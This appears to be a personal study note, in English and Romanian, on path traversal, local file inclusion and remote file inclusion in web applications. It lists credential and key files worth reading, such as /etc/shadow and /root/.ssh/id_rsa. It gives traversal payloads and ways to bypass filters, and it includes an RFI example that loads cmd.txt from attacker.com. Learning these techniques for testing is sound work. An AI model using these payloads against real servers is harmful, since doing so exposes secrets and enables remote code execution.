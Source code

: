 <h2>Path Traversal(../ attack)</h2>
	Get contents of a file not in root app directory via a php function, like file_get_contents.
	Can use known directories and files for testing
		/etc/passwd
		/etc/shadow
		/root/.bash-history
		/var/log/dmessage
		/var/mail/root
		/root/.ssh/id_rsa
		/var/log/apache2/access.log
		/proc/version
		/etc/profile
		/etc/issue
		C:\boot.ini
	
	`http://webapp.com/get.php?file=../../../../etc/passwd`


<h2>Local File Inclusion(LFI)</h2>
Basically the same as ../ attack, only that it targets include/require/include_once functions.
Can work on Node.js / PHP/ ASP/ JSP / others.
Se pot folosi informatii din erori pentru a descoperi unde treubuie sa navigam cu ../

->Daca serverul verifica extensia fisierului pe care incercam sa l accesam ilegitim, atunci trebuie sa folosim un NULL BYTE la final(%00) pentru a spune serverului sa ignore extensia
(Fixed in php 5.3.4)
->Daca serverul are filtru pe functia vulnerabila, atunci putem folosi ori NULL BYTE ori putem sa punem la final /.(/etc/passwd/.)
->Daca serverul filtreaza ../ putem pune in locul lui `.. ../ / (fara spatii)`
->Daca serverul forteaza un directory anume, atunci trebuie sa l includem in variabila
	`?lang=languages/../../../../../etc/passwd`


<h3>Proces</h3>
1. Find an entry point that could be via GET, POST, COOKIE, or HTTP header values!
2. Enter a valid input to see how the web server behaves.
3. Enter invalid inputs, including special characters and common file names.
4. Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
5. Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
6. Understand the input validation and if there are any filters!
7. Try the inject a valid entry to read sensitive files
<h2>Remote FIle Inclusion</h2>
Folosesti functia include sa accesezi un fisier de pe un server extern
**Trebuie ca optiunea `allow_url_fopen` sa fie setata pe `on`!**
Exemplu:
`http://webapp.com/get.php?file=http://attacker.com/cmd.txt`



